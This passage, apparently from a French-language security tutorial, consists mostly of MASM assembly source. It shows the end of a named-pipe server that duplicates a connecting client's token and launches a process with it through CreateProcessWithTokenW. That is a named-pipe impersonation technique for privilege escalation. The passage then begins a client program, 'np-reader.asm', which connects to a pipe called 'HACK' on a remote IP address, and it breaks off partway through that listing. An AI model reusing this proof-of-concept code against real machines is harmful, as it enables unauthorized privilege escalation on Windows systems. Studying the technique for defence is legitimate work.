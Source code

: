 ```
    jmp exit

DuplicateTokenOk:

    invoke CreateProcessWithTokenW, newtoken, 2, 0, addr cmd, 10h, 0, 0, addr startinfo, addr procinfo
;    invoke GetLastError

    invoke DisconnectNamedPipe, ebx

exit:
	xor eax, eax
	push eax
	call ExitProcess
	

Start ENDP
END
```

Le code complet du __np-reader.asm__ est présenté ci-dessous:

```
.586
.model flat, stdcall

; kernel32.dll
GetLastError PROTO STDCALL
ExitProcess PROTO STDCALL       dwExitCode:DWORD
WaitNamedPipeA PROTO STDCALL    lpNamedPipeName:DWORD,
                                nTimeOut:DWORD
CreateFileA PROTO STDCALL       lpFileName:DWORD,
                                dwDesiredAccess:DWORD,
                                dwShareMode:DWORD,
                                lpSecurityAttributes:DWORD,
                                dwCreationDisposition:DWORD,
                                dwFlagsAndAttributes:DWORD,
                                hTemplateFile:DWORD
ReadFile PROTO STDCALL          hFile:DWORD,
                                lpBuffer:DWORD,
                                nNumberOfBytesToRead:DWORD,
                                lpNumberOfBytesRead:DWORD,
                                lpOverlapped:DWORD
CloseHandle PROTO STDCALL       hObject:DWORD

	
.data
    namedPipeName   db "\\192.168.0.28\Pipe\HACK", 0


.data?
    buffer      db 256 dup (?)
    BytesRead   DWORD ?
    

.code

Start PROC
    ; NMPWAIT_WAIT_FOREVER: 0FFFFh
    invoke WaitNamedPipeA, addr namedPipeName, 0FFFFh

    ; GENERIC_READ or GENERIC_WRITE: 0C0000000h
    ; OPEN_EXISTING: 3
    invoke CreateFileA, addr namedPipeName, 0C0000000h, 0, 0, 3, 0, 0
```